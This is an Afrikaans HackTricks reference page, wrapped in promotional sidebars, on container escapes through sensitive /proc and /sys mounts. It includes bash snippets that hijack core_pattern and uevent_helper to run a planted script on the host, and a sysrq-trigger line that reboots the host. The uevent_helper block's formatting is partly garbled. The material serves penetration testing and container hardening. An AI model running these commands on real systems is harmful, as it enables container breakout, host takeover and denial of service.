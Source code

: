 # Sensitiewe Monteerplekke

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

Die blootstelling van `/proc` en `/sys` sonder behoorlike naamsruimte-isolasie stel beduidende sekuriteitsrisiko's bloot, insluitend vergroting van die aanvalsoppervlak en inligtingsoffening. Hierdie gids bevat sensitiewe lêers wat, indien verkeerd geconfigureer of deur 'n ongemagtigde gebruiker benader, kan lei tot die ontsnapping van die houer, aanpassing van die gasheer, of die voorsiening van inligting wat verdere aanvalle kan ondersteun. Byvoorbeeld, die verkeerde montering van `-v /proc:/host/proc` kan AppArmor-beskerming omseil as gevolg van sy pad-gebaseerde aard, wat `/host/proc` onbeskerm agterlaat.

**Jy kan verdere besonderhede van elke potensiële kwesbaarheid vind in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Kwesbaarhede

### `/proc/sys`

Hierdie gids maak toegang moontlik om kernelveranderlikes te wysig, gewoonlik via `sysctl(2)`, en bevat verskeie subgidse van belang:

#### **`/proc/sys/kernel/core_pattern`**

* Beskryf in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Maak dit moontlik om 'n program te definieer om uit te voer wanneer 'n kernlêer gegenereer word met die eerste 128 byte as argumente. Dit kan lei tot kode-uitvoering as die lêer begin met 'n pyp `|`.
*   **Toets- en Uitbuitingvoorbeeld**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Toets skryftoegang
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Stel aangepaste hanterer in
sleep 5 && ./crash & # Trigger hanterer
```

#### **`/proc/sys/kernel/modprobe`**

* Uiteengesit in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Bevat die pad na die kernelmodule-laaiers, aangeroep vir die laai van kernelmodules.
*   **Toegangkontrole-voorbeeld**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Kontroleer toegang tot modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Verwys in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* 'n Globale vlag wat beheer of die kernel paniekerig word of die OOM-killer aanroep wanneer 'n OOM-toestand plaasvind.

#### **`/proc/sys/fs`**

* Volgens [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), bevat opsies en inligting oor die lêersisteem.
* Skryftoegang kan verskeie ontkenning-van-diens-aanvalle teen die gasheer moontlik maak.

#### **`/proc/sys/fs/binfmt_misc`**

* Maak dit moontlik om tolke vir nie-inheemse binêre formate te registreer op grond van hul toorgetal.
* Kan lei tot bevoorregte eskalasie of toegang tot die root-skoot as `/proc/sys/fs/binfmt_misc/register` skryfbaar is.
* Relevant uitbuiting en verduideliking:
* [Armoedige man se rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Diepgaande handleiding: [Video skakel](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Ander in `/proc`

#### **`/proc/config.gz`**

* Kan die kernelkonfigurasie onthul as `CONFIG_IKCONFIG_PROC` geaktiveer is.
* Nuttig vir aanvallers om kwesbaarhede in die lopende kernel te identifiseer.

#### **`/proc/sysrq-trigger`**

* Maak dit moontlik om Sysrq-opdragte aan te roep, wat moontlik onmiddellike stelselherlaaie of ander kritieke aksies kan veroorsaak.
*   **Gasheerherlaaivoorbeeld**:

```bash
echo b > /proc/sysrq-trigger # Herlaai die gasheer
```

#### **`/proc/kmsg`**

* Stel kernelringbufferboodskappe bloot.
* Kan help met kernel-uitbuitings, adreslekke, en die voorsiening van sensitiewe stelselinligting.

#### **`/proc/kallsyms`**

* Lys kernel-uitgevoerde simbole en hul adresse.
* Essensieel vir die ontwikkeling van kernel-uitbuitings, veral vir die oorkom van KASLR.
* Adresinligting is beperk met `kptr_restrict` ingestel op `1` of `2`.
* Besonderhede in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Koppel met die kernelgeheue-toestel `/dev/mem`.
* Histories vatbaar vir bevoorregte eskalasie-aanvalle.
* Meer oor [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Verteenwoordig die stelsel se fisiese geheue in ELF-kernformaat.
* Lees kan gasheerstelsel- en ander houergeheue-inhoud uitlek.
* 'n Groot lêergrootte kan lei tot leesprobleme of sagtewarestortings.
* Gedetailleerde gebruik in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternatiewe koppelvlak vir `/dev/kmem`, wat die kernel virtuele geheue verteenwoordig.
* Maak lees en skryf moontlik, dus direkte aanpassing van kernelgeheue.

#### **`/proc/mem`**

* Alternatiewe koppelvlak vir `/dev/mem`, wat fisiese geheue verteenwoordig.
* Maak lees en skryf moontlik, aanpassing van alle geheue vereis die oplossing van virtuele na fisiese adresse.

#### **`/proc/sched_debug`**

* Gee prosesbeplanningsinligting terug, om PID-naamsruimtebeskerming te omseil.
* Stel prosesname, ID's, en cgroup-identifiseerders bloot.

#### **`/proc/[pid]/mountinfo`**

* Verskaf inligting oor koppelplekke in die proses se koppelnaamruimte.
* Stel die ligging van die houer `rootfs` of beeld bloot.

### `/sys` Kwesbaarhede

#### **`/sys/kernel/uevent_helper`**

* Gebruik vir die hanteer van kerneltoestel `uevents`.
* Skryf na `/sys/kernel/uevent_helper` kan arbitrêre skripte uitvoer wanneer `uevent`-triggers plaasvind.
*   **Voorbeeld vir Uitbuiting**: %%%bash

## Skep 'n lading

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

## Vind gasheerpad vanaf OverlayFS-koppelvlak vir houer

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

## Stel uevent\_helper in op skadelike helper

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

## Roep 'n uevent af

echo change > /sys/class/mem/null/uevent

## Lees die uitset

cat /output %%%
#### **`/sys/class/thermal`**

* Beheer temperatuurinstellings, moontlik veroorsaak DoS aanvalle of fisiese skade.

#### **`/sys/kernel/vmcoreinfo`**

* Lek kernel adresse, moontlik kompromitteer KASLR.

#### **`/sys/kernel/security`**

* Bevat `securityfs` koppelvlak, wat konfigurasie van Linux Security Modules soos AppArmor moontlik maak.
* Toegang kan 'n houer in staat stel om sy MAC-stelsel uit te skakel.

#### **`/sys/firmware/efi/vars` en `/sys/firmware/efi/efivars`**

* Blootstelling van koppelvlakke vir interaksie met EFI veranderlikes in NVRAM.
* Verkeerde konfigurasie of uitbuiting kan lei tot 'n baksteen laptop of 'n onopstartbare gasheer masjien.

#### **`/sys/kernel/debug`**

* `debugfs` bied 'n "geen reëls" foutopsporingskoppelvlak na die kernel.
* Geskiedenis van sekuriteitskwessies as gevolg van sy onbeperkte aard.

### Verwysings

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Begrip en Versterking van Linux Houers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Misbruik van Bevoorregte en Onbevoorregte Linux Houers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien jou **maatskappy geadverteer in HackTricks** of **laai HackTricks in PDF af** Kyk na die [**SUBSKRIPSIEPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
